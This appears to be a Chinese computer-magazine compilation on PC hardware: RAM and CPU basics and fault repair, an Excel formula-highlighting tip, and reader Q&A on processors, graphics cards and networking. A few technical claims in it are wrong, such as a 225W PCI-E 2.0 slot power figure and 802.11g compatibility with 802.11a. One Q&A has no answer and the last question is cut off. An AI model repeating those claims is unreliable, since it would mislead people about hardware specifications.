如果按曾经出现过的内存进行区分，可分有EDO RAM、SDRAM、RDRAM、DDR RAM这几种内存。其中，EDO RAM、SDRAM和RDRAM这三种内存已经退出配件市场，所以目前最常见的内存就是DDR RAM。在DDR RAM内存中，目前又分有DDR、DDR2和DDR3的三种。

DDR DRAM是Dual Date Rate DRAM的简称，也就是“双倍速率SDRAM”的意思。它可以说是传统SDRAM的升级版本，它在时钟信号上升沿和下降沿各传输一次数据，这使到DDR的数据传输速率为传统SDRAM的两倍。由于DDR能够提供更多的内存带宽，不但能解决SDRAM遭遇的窘境，而且还适合以后技术发展的需要，以及在兼容性、成本控制、授权等方面都较RDRAM要受欢迎，因此成为了市场的主流。

直至目前，DDR DRAM同样是内存市场的主流，不过随着硬件技术的不断发展，早期的DDR内存也已经逐渐被DDR2和DDR3这两种新规范的DDR内存所取代了。其中，DDR2内存在外观上与DDR差不多，只是金手指（插脚）缺口的位置略有不同而已。DDR2采用“4 bit Prefetch（4位预取）”机制，核心频率仅为时钟频率的一半、时钟频率再为数据频率的一半，这样即使核心频率还是200MHz，DDR2内存的数据频率也能达到800MHz（也就是所谓的DDR2 800内存）。

DDR3相比起DDR2而言，则有更低的工作电压，它从DDR2的1.8V降落到1.5V，性能更好更省电；预取机制也从DDR2的4bit预取升级为8bit预取。在工作频率方面，DDR3内存最低将会从800MHz起跳，目前最高能够达到1600Mhz的速度。

## 内存的外观与构造

从内存的外观中，我们知道它主要由PCB板和内存颗粒（黑色的集成芯片）组成。其中，内存颗粒的品牌和质量，以及PCB板的做工，元件的焊接工艺，都会直接影响到内存的质量和兼容性。



现在内存的封装形式，主要有BGA和TSOP两种。其中，BGA封装分有FBGA、μBGA、TinyBGA等种类，TSOP分有TSOP I和TSOP II两种。BGA封装具有芯片面积小的特点，可以减少PCB板的面积，发热量也比较小，但是需要专用的焊接设备，无法手工焊接。





一般BGA封装的芯片，需要多层PCB板布线，这就对成本提出了要求。但是，BGA封装拥有芯片安装容易、电气性能更好、信号传输延迟低、允许高频运作、散热性卓越等许多优点，它是DDR2的官方封装形式。而TSOP相对来说工艺比较成熟，成本低，缺点是频率提升比较困难，体积较大，发热量也比BGA大。目前，市场上的DDR2内存条已经很少使用TSOP封装，而多是采用BGA封装形式。

## 内存故障种类和解决方法

由于内存设置不当、接触不良或不兼容等原因，往往会导致内存产生各种各样的故障，而内存作为一台电脑的主要部件之一，它的稳定与否，直接影响到电脑的正常使用。下面针对内存不同的故障种类，分别介绍其对应的解决方法。

### 1. 内存设置故障一般解决方法

故障分析
在BIOS中，我们可以对内存的电压、频率和响应时间等项目进行设置和优化，但设置不当，则会导致内存出现故障，比如超频过度，或对内存进行优化后，内存质量赶不上，就会导致电脑不能正常运行，出现无法开机、死机，或无故重启等故障现象。

解决方法
在电脑刚启动时，按Del键进入BIOS设置程序，接着选用Load Fail-Safe Defaults选项，将BIOS恢复到出厂默认设置即可。如果电脑无法开机，可打开电脑机箱，然后利用CMOS跳线，或把主板电池取出，以将主板放电，即可让BIOS恢复出厂默认值，接着即可重新开机。

小提示
不同的BIOS程序，其进入方法和恢复默认值的选项会有所不同，具体可见主板说明书的详细说明。

### 2. 内存接触不良故障一般解决方法

故障分析
内存接触不良是内存最常见的故障原因之一，而引起内存条与内存插槽接触不良的原因有很多，主要包括碰撞或移动主机、内存金手指被氧化、主板内存条插槽积尘过多、内存插槽掉入异物、内存安装时松动不牢固、内存插槽中簧片变形失效等。而在内存发生接触不良时，一般表现为无法开机、开机有报警鸣声，或电脑容易死机等现象。

解决方法
首先卸下内存，然后清洁内存条和主板内存插槽中的灰尘，接着重新将内存安装好，并开机测试，看故障是否消失。如果故障依旧，接着用橡皮擦拭内存条的金手指，清除内存金手指上被氧化的氧化层，然后安装好开机测试。如果故障没有消失，可以将内存安装在另一个内存插槽中，开机测试。如果故障消失，则是内存插槽中簧片变形失效所致，接着将内存卸下，然后仔细观察内存插槽中的弹簧片，找到变形的弹簧片，用钩针等工具进行调整即可。



### 3. 内存兼容性故障一般解决方法

故障分析
内存兼容性故障是指内存与主板、显卡或其他扩展插卡不兼容引起的故障。内存与电脑主机部件不兼容，通常会造成电脑死机、内存容量减少、电脑无法正常启动、无法开机等故障现象。

解决方法
首先卸下内存条，然后清洁内存条和主板内存插槽中的灰尘，清洁后重新安装好内存。在安装内存时，最好将内存安装在其他闲置的内存插槽中。接着，再重新开机检查是否能正常启动。如果故障依旧，可将电脑主机中非必要的硬件先卸下，只保留CPU、主板、内存、显卡和电源，接着再开机，查看电脑是否能正常启动。如果能正常开机，说明内存或其他主要部件，与之前卸下的某硬件不兼容，这时可逐一安装之前卸下的硬件，每安装一个部件，开一次电脑，了解具体是哪个部件导致不兼容，然后将其更换。



如果用上面的方法，依然不能正常开机，说明内存条与主板或其他主要部件发生兼容性问题，这时可将内存安装到其他电脑上，同时将其他电脑上的内存安装到出现故障的电脑上，以此检测电脑是否能正常开机。如果确实是内存不兼容，可更换内存。



### 4. 内存质量不佳或损坏故障一般解决方法

故障分析
很多时候，从内存外观上看，感觉内存完好无损，但在实际使用时，却由于内部制作质量不过关或损坏，产生各种内存故障。一般来说，如果内存已经损坏，会导致电脑无法开机、开机时有报警鸣声；如果内存质量有问题，往往会使电脑容易出现死机、蓝屏，或在浏览网页、使用一些正常程序时，突然无故提示非法操作。

解决方法
如果是内存质量有问题，或内存已经损坏，并且内存还处于保修期内，可联系经销商更换内存，一般内存条的保修期有三年，一年内可分辨出内存是否有质量问题。但如果内存已经过保修期，可选用以下三种途径排除故障：全面检查内存的电路、金手指以及内存芯片等元件，然后利用电烙铁、BGA封装机等工具维修；将内存条送到相关维修店铺维修；更换内存条。



精选内存故障维修案例
一般如果由于内存导致电脑不能开机，可从内存是否安装牢固、设置是否正确、是否损坏这些途径进行诊断。如果能够启动电脑，但出现死机、蓝屏等故障现象，则可从内存容量是否正确、使用是否有异常、是否过热、硬件是否不兼容、有没有超频，以及内存质量有没有问题这些途径进行检修。下面，给大家介绍如何用内存测试卡来检测内存存在的问题。

## 内存故障轻松搞定——内存测试卡使用详解

### 认识内存测试卡

内存测试卡是一种可以检测内存质量是否有问题、内存条上哪些芯片或元件损坏的一种测试工具。它在测试内存时，可通过测试卡的诊断，以及内存测试程序的检测，从测试卡的指标灯、数码管、喇叭鸣声、程序检测结果中，将内存故障信息反映出来。

### 内存测试卡使用

将内存测试卡安装在主板上的PCI插槽中，接通电源启动电脑，内存测试卡就会自动对安装在主板上的内存进行检测。

在检测内存的过程中，每测试完1M容量，数码管就会显示相对应的M数，测试完后，数码管会显示出总容量的M数。比如：当测试512MB容量的内存时，开始数码管显示0000，表明正在测试0到1M的地址范围，测完1M后，数码管显示0001，表示正在测试1M到2M的范围，测试完后，数码管显示0512。

一般内存测试卡提供有快速和全面的两种测试方式。前者通过对内存跳跃式测试来判断内存好坏，主要针对IC内部大部分损坏、金手指接触不良，或者IC假焊、连焊等由于加工造成的内存条损坏。这种方式，每测试128MB约需要5秒钟的时间；而全面测试则通过对内存中每一单元进行多次读写来判断内存好坏，主要针对IC内部局部损坏进行测试，一般每测试1M约需要1秒钟。如果在检测的过程中发现故障，测试卡会发出鸣声，以及在指标灯相应位置中，说明具体故障原因。





## 让含有公式的单元格与众不同

文/闫华礼

在比较复杂Excel表格中，有一部分单元格中的数据是我们手工输入的，而另外一部分单元格中的数据则是来自于公式的计算。想想看吧！对于此种类型的Excel表格，无意中在含有公式的单元格输入数据，相信大家经常会出现这样的误操作。怎样才能避免犯这种让人十分尴尬的错误呢？还是给那些含有公式的单元格添加上醒目的颜色以清楚地和其他单元格区分开来比较好。

第一步：先打开某个含有公式的Excel工作簿，然后选中某个有公式的单元格，再单击菜单“插入→名称→定义”命令，打开“定义名称”对话框；接着将“在当前工作簿中的名称”下边文本框内的内容替换为“IsFormula”（不包含外侧引号，下同）、将“引用位置”下边文本框内的内容替换为“=GET.CELL(48,学生成绩表!A1)”；最后依次单击“添加”、“关闭”按钮，完成将宏函数Get.Cell定义为名称IsFormula的工作即可。

> 小提示
宏函数Get.Cell的具体含义是：返回某一引用区域单元格的格式、位置或内容等信息。需要注意的是，这个宏函数不能在Excel 2003中直接使用，必须定义成名称后才能使用；此外，“引用位置”下边文本框中替换后的内容所包含的字符串“学生成绩表”是指当前使用宏函数Get.Cell的工作表，工作表的名称如有不同，请大家自行更改。

第二步：选中包含公式的那列单元格（如D列单元格），单击菜单“格式→条件格式”命令，打开“条件格式”对话框；接着单击该对话框“条件”下边的下拉箭头，选择“公式”并在右边新出现的文本框内输入“=IsFormula”，再单击“格式”按钮，打开“单元格格式”对话框并切换到“图案”选项卡，根据自己的喜好设置好含有公式的单元格的颜色（如“米黄色”），单击“确定”。

> 小提示
1.我们选中D列单元格，接着在“条件格式”对话框中输入函数“=IsFormula”，并根据自己的喜好设置好含有公式的单元格的颜色，其含义是：先判断D列的任意一个单元是否包含函数，如果包含，则该单元格的颜色就显示为米黄色；反之，该单元格就会以默认的无颜色状态显示。
2.在执行第二步的操作过程中，如果工作表中包含公式的单元格不止一列的话，可先选中窗口中包含数据的所有单元格，再打开“条件格式”对话框，最后执行第二步剩余的其他操作即可。

经过以上两步的操作，对于窗口中所有包含公式的单元格，其颜色就都变成了米黄色，从而和其他单元格明显地区别开来了。怎么样？在包含公式的单元格中误输入数据，相信大家再也不会犯这种错误了吧。

## 让我们拥有一个正常的“芯”

计算机技术的发展速度可谓一日千里，CPU作为一台计算机中的中央处理器，它的技术也是日新月异，比如约在3年前Intel的P4系列CPU还是人们津津乐道的热门高端产品，如今却已逐渐被市场淘汰，取而代之的是Core 2系列双核心甚至四核心的CPU了。

CPU，全名是“Central Processing Unit”，其中文意思是“中央的处理单位”。从名称中可以知道，CPU在一台电脑中具有至关重要的作用，它相当于人体的心脏，是一台电脑数据运算的核心。

在CPU的内部结构中，分有控制单元、逻辑单元和存储单元三大部分。CPU的工作原理就像一个工厂对产品的加工过程一般。首先为工厂加入原料（输入指令），然后经过物资分配部门（控制单元的运作）的调度分配，被送往生产线（运用CPU的逻辑运算单元），生产出成品（处理后的数据）后，再存储在仓库（存储器）中，最后拿到市场上去卖（交给应用程序使用）。

因为CPU负责电脑整个系统指令的执行，所以CPU运算速度的快慢，直接地决定着一台电脑运算速度的快慢。因此，人们习惯以它来判定电脑的档次，于是就有了486、586、Pentium、Pentium Ⅱ、Pentium Ⅲ和Pentium 4，乃至如今的双核、四核等电脑的称呼了。

现在CPU内部集成的晶体管已达到数亿个，据了解Intel将会推出32纳米Westmere核心的CPU，每个DIE将集成大约20亿个晶体管，这跟PⅢ、P4时代的CPU还停留在以千万为单位计算的数目而言，可谓翻了数十倍、乃至上百倍之多。一般来说CPU集成的晶体管越多，其运算速度越高。而数十亿个的晶体管都集成在越来越小的体积里面，足见CPU制作工艺的超越。

虽然CPU是一台电脑的中央处理器，它的档次决定着电脑运算速度的快慢，但也不是说电脑配置的CPU速度越快，电脑的运算速度就越快，具体还要有相应速度、容量的内存、显卡等硬件设备的配合。其实，随着CPU各方面技术的不断成熟，CPU的频率在决定CPU速度快慢上已经渐渐显得不再主要了（例如采用的核心技术、制作工艺、缓存的大小、具有那些指令集，以及双核心技术的出现等等），所以现在Intel和AMD的CPU都已经改变了以往一贯由CPU工作频率命名的习惯。

以Intel双核心的Core 2 Duo E6x00和Core 2 Extreme X6x00系列CPU为例，它采用了Conroe核心技术，该核心技术采用65nm制造工艺，核心电压为1.3V左右，封装方式采用PLGA，接口类型是Socket 775。在前端总线频率方面，目前Core 2 Duo和Core 2 Extreme都是1066MHz，而顶级的Core 2 Extreme将会升级到1333MHz；在一级缓存方面，每个核心都具有32KB的数据缓存和32KB的指令缓存，并且两个核心的一级数据缓存之间可以直接交换数据；在二级缓存方面，Conroe核心都是两个内核共享4MB。Conroe核心都支持硬件防病毒技术EDB、节能省电技术EIST和64位技术EM64T以及虚拟化技术Intel VT。

从Intel和AMD主流的CPU产品中，我们知道不同性能的CPU，往往采用了不同的制作技术，其采用的技术优劣往往也决定着CPU产品的价格和市场定位。比如，目前Intel分有低端的Celeron D和Celeron E系列CPU、中端的Pentium D和Pentium E系列CPU，以及高端的Core 2 Duo系列CPU。AMD也分有低端的Athlon 64和Sempron系列CPU，中端的Athlon 64 X2系列CPU，以及高端的AMD Phenom X3系列CPU。不同的系列的CPU，其采用的核心技术、制作工艺、缓存容量，以及扩展指令等技术往往都不相同。

### CPU的外观与构造

#### 1. CPU的外观

CPU外形是一个矩形片状物体，金属封装壳包裹着CPU的核心，周围则是CPU基板，基板将CPU内部的信号引到CPU引脚上。基板的背面有许多密密麻麻的镀金的引脚，它是CPU与外部电路连接的通道，同时也起着固定CPU的作用。

此外，采用不同架构的CPU，其引脚数量和特点通常都不相同。例如，目前Intel主要采用LGA 775的接口类型，而AMD则主要采用Socket AM2接口类型。其中，LGA 775接口的Intel处理器全部采用了触点式设计，它与以往的478针管式设计相比，最大的优势是不用再去担心针脚折断的问题，但对处理器的插座要求则更高。

#### 2. CPU的构造

CPU主要是由晶体管、硅、铝和铜这些材料制作而成的，其内部结构可以分为控制单元、逻辑单元和存储单元三大部分，三个部分相互协调，便可以进行分析、判断、运算并控制计算机各部分协调工作。

Intel和AMD早期有部分产品，尽管同样采用矩形片状外观设计，但其中间凸起的一片指甲大小的、薄薄的硅晶片部分就是CPU核心。在这块小小的硅片上，密布着数以千万计的晶体管，它们相互配合协调，完成着各种复杂的运算和操作。

### CPU故障种类和解决方法

由于散热、超频不良等的原因，往往会导致CPU产生各种各样的故障，而CPU作为一台电脑的中央处理器，它的稳定与否，直接影响着电脑的正常使用。下面针对CPU不同的故障种类，分别介绍其对应的解决方法，供大家维修时参考。

#### CPU散热类故障一般解决方法

#### 故障分析

由于CPU散热不良的原因，造成电脑死机、自动重启的现象屡见不鲜，尤其是在CPU超频的情况下。一般来说，CPU散热类的故障，多是由于CPU散热片或散热风扇问题而引起的，这是因为目前的CPU集成度非常高，其发热量很大，特别是目前的双核、四核CPU，其发热量更大，因此散热风扇对于CPU的稳定运行便起到了至关重要的作用。

幸好目前的CPU都加入了过热保护功能，超过一定的温度以后，便会自行关机，一般不会因为过热而导致CPU烧毁，但过高的温度会使CPU工作不正常，例如出现电脑频繁出现死机、重新启动，或黑屏等故障，严重影响用户的正常使用。

#### 解决方法

首先检查CPU散热风扇运转是否正常，如果不正常，检查散热风扇是否安装良好，如果安装良好，却不能正常运转，就应该将其进行更换。如果CPU散热风扇正常运转，故障依旧，可打开机箱，用手试探CPU散热片的温度是否非常高，例如是否出现烫手的现象等。如果发现CPU散热片比较烫手，则应该改用散热性能更强的CPU散热器。

CPU散热风扇正常运转，故障依旧，但电脑运行一段时间后，安装在CPU上的散热片的底部却比较冰凉，那么很可能是由于CPU的散热器安装不当所致，这时应该仔细检查CPU的散热器的安装，并将其卸载后正确重新安装，看看故障是否排除。此外，也可能是由于用的CPU散热器不适合当前的CPU构架，这时应该重新选用适当的CPU散热风扇，并正确安装。安装的时候，可适当添加一些导热硅脂。



#### CPU超频类故障一般解决方法

#### 故障分析

超频是提升电脑硬件整体性能的有效途径，却也是导致CPU故障机率较高的因素之一。一般来说，在给CPU进行超频后，不但会导致CPU的发热量更大、缩短CPU的使用寿命，而且对CPU、主板和内存等部件的质量要求更高。实践证明，很多原本可以正常使用的CPU、主板和内存，在超频后往往出现一些莫明其妙的故障，这多是由于其质量并不适合超频所致的。

所以，超频后的CPU在性能上有所提升，却也影响了电脑的稳定性，例如可能会由于散热不良导致电脑无法开机、开机自检时死机、正常开机后不能进入操作系统，或在系统运行过程中经常发生死机、蓝屏等故障现象。

#### 解决方法

如果条件允许，首先可考虑增强CPU的散热条件（如更换更大的散热片和散热风扇），并检查故障是否消失。如果故障没有排除，或者不考虑升级散热设备，可在BIOS中或通过主板跳线将CPU的工作电压略微调高一点，再查看故障是否消失。

如果故障依然没有消失，接着可恢复CPU的频率，使CPU工作在正常的频率下即可排除故障。



### CPU供电类故障一般解决方法

#### 故障分析

主板不能为CPU供电，或者在BIOS中对CPU的电压设置不当，往往会导致电脑不能开机等的故障出现。一般主板不能为CPU供电，表现为电脑不能开机；在BIOS中对CPU的电压设置不当，则表现为CPU不工作（一般CPU风扇会转动）。当然，在出现这种故障时，应该先确定电脑的电源是否能够正常供电。

#### 解决方法

首先在主板中将CMOS放电，这样可以拿到BIOS设置恢复到出厂时的初始设置值。然后开机，如果是由于CPU电压设置不当导致的故障，一般可以解决。

如果故障发生前没有进行CPU电压的设置，则可能是CPU供电电路有故障，这时表现为电脑开机后，CPU风扇转一下又停，或主板CPU不工作，用主板测试卡测试，只能显示到C、D3、00或FF等故障代码。这种情况说明CPU供电电压不正常。CPU供电电压不正常，一般是由主板CPU供电电路故障所致，而CPU供电电路故障通常由电源管理芯片损坏、场效应管损坏、滤波电容损坏、限流电阻损坏等造成。这时可先使用万用表查看主板主要的几个供电电容有没有短路，如果有短路现象，可将电容更换，以排除故障。



接着，可以测量电源IC的自身的供电，如12V和5V等。再量一下三极管的控制端，其阻值应该一样，不会差得太远，如果差太远则电源IC损坏。电源IC周围的小电容，也会引起这种故障，检测时可一个一个去检查。

> 小提示
某些电源IC有一个特别的控制端，这个端的电位不对，也会没有CPU电压输出。但这个要查具体的资料，因为每个电源IC都不一样。

> 小提示
由于CPU每个针脚都只是焊接在细小的焊盘中，如果在扶直针脚时过于用力，反而会导致CPU焊盘和针脚脱落，所以在扶直针脚的时候应特别小心，尤其是针根的焊点位置。

### CPU损坏类故障一般解决方法

#### 故障分析

CPU损坏类故障是指CPU插脚弯曲、断针，甚至凸起的核心磨损、主芯片破碎，导致CPU不能正常工作。通常在遇到CPU损坏类故障时，由于CPU是一个集成度很高的配件，其可再修的机率不高，但是如果我们掌握一定的焊功，以及具有相关的维修设备，还是可以尝试对其进行维修的。

如果CPU针脚弯曲，可尝试用镊子或尖嘴钳将弯曲的针脚小心扶直。弄的时候一定照顾好横竖排，以及尽量一次成功，因为针数多，CPU的针脚比较密，孔也比较小。弄好后一定要仔细观察一下有没有位置不正的针，横竖都看看。扶直后，在安装CPU的时候，别用蛮力，而应该小心对准CPU插座，如果实在安装不下，可再尝试将针脚扶至适合的位置。



如果CPU出现断针，可根据断针的情况，将断针修复。其中方法包括焊接、改用铜线等。

如果CPU凸起的核心被磨损，或者主芯片破碎了，可尝试使用BGA封装机，将坏的CPU往上面夹定，打开电源，设定程序，将CPU的主芯片和PCB板分离，这时可以发现PCB板的表面非常光滑干净，就好像从来没有这么一块芯片焊在上面一样。接下来，找一块配套的主芯片，用同样的方法，把芯片在PCB板上放正，然后把这两样东西都夹在BGA机上，设定程序，等待加热、焊接完成即可。





> 小知识
CPU的芯片和PCB板之间不是紧密贴在一起的，每个小锡珠只有极小的一点焊在PCB板上。一般来说，当系统工作时，CPU温度较高。关机后，机器渐渐冷却下来。长期使用，热胀冷缩，焊锡珠与PCB板的接触就可能出现问题。加热重新焊接是解决此类问题的最好办法。不过，BGA封装机是专用于芯片维修的工具，普遍要十多万以上，对于普通用户而言，可将CPU拿到维修店维修。另外，BGA封装机适合维修采用BGA封装的CPU、南北桥主芯片等芯片元件。


## 双核CPU的两个核心工作量差很多

问：我使用的是一颗Pentium E 2160处理器，系统正常运行过程中打开“任务管理器”时会发现两个核心的负载情况不一致，经常是一个10%左右，另外一个却高达40%~50%。差距非常大，请问是处理器出问题吗？


答：你说的这种情况是完全正常的。操作系统会根据当前任务量的多寡自动分配处理器的计算资源，有些(早期)程序不能够支持双核心处理器，就会被指定给某一个核心运算，此时两个核心的工作量就不一样了；另外，一些程序在运算过程中也可能出现“分配不均”的情况，所以两个核心的负载不可能完全一致，对于这点无需担心。你甚至还可以手动为操作系统的进程指定运算核心，方法是：在系统中选择“任务管理器→进程”，选择要改变的进程，用鼠标右键单击进程，在弹出的菜单中指定计算资源即可。

## 双核心处理器的主频应该翻倍吗

问：最近想购买一台笔记本电脑，看中了华硕A8H231Sr-SL，采用的是Intel T2130(1.46GHz主频)处理器。我觉得主频有点低，销售人员给我们解释说这是双核心64位处理器，所以主频应该翻倍计算，也就是1.46GHz×2=2.92GHz。请问能够这么算吗？

答：双核心处理器根本没有“能让主频翻一倍”的说法，这应该是销售人员的欺骗说法。双核心(或者多核心)最大的优势在于提高多任务并行处理时的效率，而且提升幅度与程序对双核心的优化程度也有很大关系。对于笔记本电脑来说，厂商通常会提供一系列规格相似但是配置不同的电脑来满足不同人群的需求，T2130是入门级的处理器产品，完全可以选择A8同系列搭配更高处理器的机型(如T5xxx、T7xxx等)；如果不是非常在意游戏性能的话，并且只是进行一般办公或者浏览网页这些应用，选择T2130处理器已经完全够用了。

## 双核处理器运行温度太高

问：前些日子刚换了一颗Athlon X2 4600+处理器，运行《使命召唤4》等游戏时处理器温度很快就升到60℃，甚至有70℃。听说现在的处理器都很节能，这种情况是否正常呢？还有就是我使用的是长城电源，额定功率220W，峰值270W，是否是因为电源功率不够造成的这种问题呢？

答：从配置上来说，如果没有使用很高级的显卡或者挂载很多IDE/SATA设备的话，额定220W的电源已经够用了。如果电源功率不足；通常会表现为系统不稳定(蓝屏或者死机)，以及电源外壳温度高、发热严重，这与处理器运行温度高没有直接关系。建议你首先检查一下处理器散热是否存在问题，例如硅脂是否均匀，与处理器接触的地方有没有气泡等等，同时建议你检查一下BIOS中关于风扇静音的设置。除此之外，还有一种情况就是BIOS误报，用手去触摸CPU散热器的散热片，看是否异常烫手，如果是BIOS误报的话，可以尝试刷新主板BIOS，一般情况下最新的BIOS会解决这些问题。

## 电脑开机时CPU散热风扇狂转

问：有一个问题困扰了我很久，我的电脑每次启动后CPU风扇都会像发疯一样旋转，同时发出巨大的声响，重启之后又恢复正常，这是怎么回事呢？

答：现在使用Intel处理器的平台，多数都搭配了PWM(脉宽调制)风扇。简单来说就是电脑根据CPU的温度负载情况自动调节风扇的转速，以求在静音和散热之间找到一个平衡点。但是在开机瞬间，风扇需要足够大的电流来启动，所以风扇会在短时间内全速运行，以迅速达到工作状态，这是一种完全正常的现象。如果你的风扇“狂吼不止”，则可能是BIOS里面关闭了PWM调节功能，请按照说明书打开该功能；如果更改BIOS设置后依然无效，则可能是PWM芯片出问题了，需要更换风扇才能解决。


## Radeon 9550显卡能搭配24英寸显示器吗

问：我现在还在使用Radeon 9550的显卡，最近想购买一台24英寸宽屏液晶显示器。请问我的显卡能否支持1920×1200的分辨率，是不是一定要用DVI信号线来输出呢？


答：自Radeon 8500/GeForce 4系列之后，多数独立显卡都可以支持1920×1200的分辨率，这样的分辨率用来显示桌面内容以及作为办公应用已经足够；但是不要指望能够在如此高的分辨率下顺畅运行游戏，玩游戏时可以适当降低分辨率，保持长宽比不变即可(如选择1280×720等)，无需点对点。从过去的使用经验来看，购买24英寸宽屏液晶显示器后多数人会使用双通道的DVI连接线来传输信号；使用VGA信号线也可以输出，但是可能遇到画面发虚的问题。

## PCI-E 2.0的显卡可以用在老主板上吗

问：我现在使用的是P965芯片组的主板，很想购买一块GeForce 8800GT显卡。听朋友说现在的该系列显卡都是PCI-E 2.0的，用在PCI-E 1.0/1.1接口上面可能会有兼容性问题，所以不敢轻易出手。请问现在兼容性问题有那么严重吗？如果真是这样，能不能用软件的方法解决？

答：如果是硬件兼容性问题的话，软件很难帮上忙，不过你所说的兼容性问题并不存在。事实是早先在某些特定型号(支持SLI)的主板上，将PCI-E 2.0显卡接到第二根显卡插槽会出现无法识别的故障，但接到第一根显卡插槽上没有此类问题(所以对单显卡用户没有影响)。PCI-E 2.0的主要变化就是将数据带宽翻倍，同时将(通过插座输出的)功率由1.1版本的75W提升到225W，这样就可以不需要外接供电来独立工作了；现在多数PCI-E 2.0版本的显卡仍然提供外接供电接口，所以也不用担心供电上的问题，放心购买就是了。

## 为什么我的显卡跑3DMark总是出错

问：最近新购入一块七彩虹Radeon HD 3850显卡，运行3DMark 01时一切正常，但是运行3DMark 03/05/06都会出现假死机现象，系统的任务管理器提示程序无响应，我使用的是催化剂7.11驱动。请问这是显卡问题还是软件故障？

答：在Radeon HD 2000系列上就有类似的问题，这是由于3DMark软件程序的兼容性引起的，与硬件没有关系。你可以到Futuremark的官方网站上下载一个程序补丁包(包含了3个文件的更新)，只要打好补丁，以后再运行测试程序就不会出错了。很多显卡厂商的驱动光盘中也附带了这个补丁，你可以仔细找一下(如果没有则到网上下载：http://www.futuremark.com/download)。

## 显卡的金手指断了

问：我的显卡是盈通1950GT标准版，有一天我把显卡拆下来后发现有一个地方少了半根金手指，但是现在可以正常运行，玩游戏也非常正常。不知道长期这么使用是否会对性能以及其他方面产生不利影响呢？

答：首先确认一下金手指是不是“真的”断了：PCI-E x16接口的显卡有两个针脚的金手指是原本就只有半截的，这么做出于电气安全性上的考虑。如果是这两根金手指，自然不会有任何影响。如果是其他位置的金手指断了，建议你最好检查一下原因，看看是蛮力插拔造成的，还是有插座的因素。最好将显卡送到相关维修部门维修。

## 显卡DVI接口没有信号

问：我使用的是一台LG 194WT宽屏液晶显示器，用Radeon HD 2600Pro显卡的DVI接口与显示器连接时，在Windows启动条读完之后就会黑屏，但使用显卡的D-Sub接口连接显示器就一切正常。请问这是怎么回事？

答：这个是软件设置的问题，与显示器本身无关。Radeon HD显卡的Catalyst催化剂驱动默认将与D-Sub连接的显示器作为“默认显示器”，使用DVI接口连接的显示器会被识别为“扩展显示器”，同时在默认状态下系统默认是“单一显示器模式”，所以使用DVI连接的显示器在系统启动完毕之后是没有输出信号的。解决办法是进入驱动程序的显示器设置页面，将接在DVI接口的显示器改为“主显示器”，重新启动之后就可以正常显示了。

## 什么显卡来搭配主板混合交火技术

问：我想买一块昂达780G主板，听说AMD的这款芯片组只有与低端显卡搭配时才能开启混合交火技术(Hybrid Crossfire)，但我打算购买一块中高端的显卡(如Radeon HD 3850)来搭配，这样一来混合交火是不是就不起作用了呢？

答：混合交火技术实际上有两个作用。其一是提升显示子系统的性能，但是只有与低端独立显卡搭配时才能看到比较明显的效果，如Radeon HD 2400/3400系列；在与中高端独立显卡搭配时，集成显卡芯片对系统的性能提升并不明显，甚至还可能成为独立显卡的拖累；其二则是节能，在没有3D应用需求时关闭独立显卡，由集成显示芯片来提供图形处理功能，这样一来就可以明显降低整机功耗。所以说使用780G芯片组完全可以搭配中高端显卡、甚至顶级显卡，混合交火还是有其节能的作用。NVIDIA混合SLI(Hybrid SLI)技术与混合交火技术的情况非常类似。

## 新换显卡后游戏运行极慢

问：新近添置了一块影驰GeForce 8600 GT256MB显卡，新安装的操作系统在运行《英雄连：抵抗前线》以及《使命召唤4：现代战争》的时候经常出现个位数的帧速，显示速度非常慢。请问这种情况正常吗？

答：除了显卡的性能之外，游戏帧速还受很多其他因素的影响，诸如硬盘传输速度、内存剩余空间以及CPU使用率等等。GeForce 8600 GT现在属于中档入门级游戏显卡，在画质上并不能苛求太多，虽然这块显卡支持DirectX 10，但是最好在DirectX 9模式下面运行游戏（《英雄连：抵抗前线》）。一般说来，我们在测试时会得到三个成绩：最高帧速、平均帧速以及最低帧速。最高帧速的意义不是很大，平均帧速达到30～40fps以上比较理想，而最低帧速最好不要低于15fps，否则就会感到画面非常不流畅。至于你说的情况，如果只是在极少数场景下降到个位数可以不予理会，否则就要考虑关闭一些特效来换取流畅的游戏效果。

## 安装显卡驱动程序后电脑黑屏

问：最近购买了一块铭瑄8800GT钻石版显卡，安装驱动的过程中提示“未经过Windows徽标认证，是否继续安装”，选择继续安装之后显示器连续黑屏两次，然后彻底没有显示信号了。重启之后偶尔可以进入系统，但提示“发现新硬件，未识别的显示卡”，安装驱动问题依旧，而且大多数情况下等不到登录界面就死机了。是不是这块卡有缺陷？

答：现在市面上的绝大多数GeForce 8800GT产品都是公版设计，所以应该不会是设计缺陷导致的问题。建议你检查机箱内各部件是否固定牢靠，尤其是显卡是否安装妥当(注意显卡是否有一端翘起)。排除这些问题后开始检查软件故障，首先在系统启动时按F8进入安全模式，在安全模式下卸载已经安装的Forceware驱动，并重新启动电脑；寻找通过Windows WHQL认证的Forceware公版驱动程序，重新安装看症状是否得到解决。如果依然无效，建议与经销商联系更换。

## 显卡硬解码还需要怎么设置

问：我现在使用的是一块七彩虹2400ProH.254 DDR2版显卡，安装终极解码2008新春版。播放高清视频时依然没法达到资料上所说的10%的CPU使用率(实际占用率50%上下)，我的处理器是AMD的黑盒Athlon64 X2 5000+，请问是否是硬件问题？

## 无法识别网卡的标准

问：最近看到一篇关于无线网卡的文章，描述产品的参数时使用了“802.11a/b/g/n”；恰好我家里也有一块无线网卡，上面写着“802.11a/b/g”。请问这块网卡属于哪一个版本的呢？

答：这种表示方法是人们的一种书写习惯。一般来说，无线网卡产品可以做到很好地向下兼容，例如802.11g(54Mbps)可以兼容802.11a(54Mbps)与802.11b(11Mbps)，就写成“802.11a/b/g”。你购买的那块网卡应该就是802.11g的产品；现在802.11n还没有最终定案，市面上的产品都是基于现有的技术草案。要注意的是，部分厂商在802.11g的基础上推出了增强方案，比较出名的是Super G(108Mbps)和Afterburner(125Mbps)两种，但是二者之间不能互相兼容，必须使用配套的方案才能实现高传输速率，否则就只能工作在54Mbps的标准802.11g模式下。



## 如何固定电脑在局域网内的地址

问：我和几个邻居使用一台路由器共享宽带上上网，但是发现分配到的IP地址不固定，有时候是“192.168.1.100”，有时候又变成了“101”、“102”，有没有办法固定住IP地址？

